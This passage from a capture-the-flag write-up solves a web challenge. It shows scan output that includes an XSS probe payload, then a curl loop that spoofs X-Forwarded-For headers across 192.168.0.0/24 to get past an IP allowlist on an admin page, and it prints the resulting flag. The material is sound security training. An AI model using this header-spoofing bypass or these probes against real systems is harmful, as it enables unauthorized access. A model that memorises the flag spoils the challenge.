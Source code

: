 ```bash
https://cfta-wh01.allyourbases.co/?M=A                 (Status: 200) [Size: 616]
https://cfta-wh01.allyourbases.co/?N=D                 (Status: 200) [Size: 616]
https://cfta-wh01.allyourbases.co/?D=A                 (Status: 200) [Size: 616]
https://cfta-wh01.allyourbases.co/?S=A                 (Status: 200) [Size: 616]
https://cfta-wh01.allyourbases.co/?\"><script>alert('Vulnerable');</script> (Status: 200) [Size: 616]
```

We can probably ignore everything beginning with a `?`, since that probably just leads back to the index page. However, we have two interesting files to look further into: `readme.txt` and `admin.html`. Let's start with `readme.txt`.

```bash
$ curl https://cfta-wh01.allyourbases.co/readme.txt
To use the CMS make sure to visit /admin.html from allowed IPs on the local network.

Note: Tell engineering to stop moving the subnet from 192.168.0.0/24
```

Interesting... It appears `admin.html` can only be allowed from certain IPs on the `192.168.0.0/24` network. We can easily spoof an internal IP by using the `X-Forwarded-For` header in our request. Let's try to brute force it:

```bash
$ for i in {1..254}; do curl -s https://cfta-wh01.allyourbases.co/admin.html -H "X-Forwarded-For: 192.168.0.$i" | grep . && echo "Page found using: 192.168.0.$i"; break; done
<!DOCTYPE html>
<html lang="en">
<head>
    <title>My Blog</title>
    <link rel="stylesheet" href="mysite.css">
</head>
<body>
<div class="main">
    <div class="center">
        <div class="header">
            <h1>Admin</h1>
        </div>
        <div class="content flag">
            <h2>Flag</h2>
            iPSpooFinGWiThHopHeaDers91918
        </div>
        <div class="footer">
            Powered By: mycustomcms 2021
        </div>
    </div>
</div>
</body>
</html>
Page found using: 192.168.0.62
```

[*Back to top*](#cyber-fasttrack-spring-2021)

---
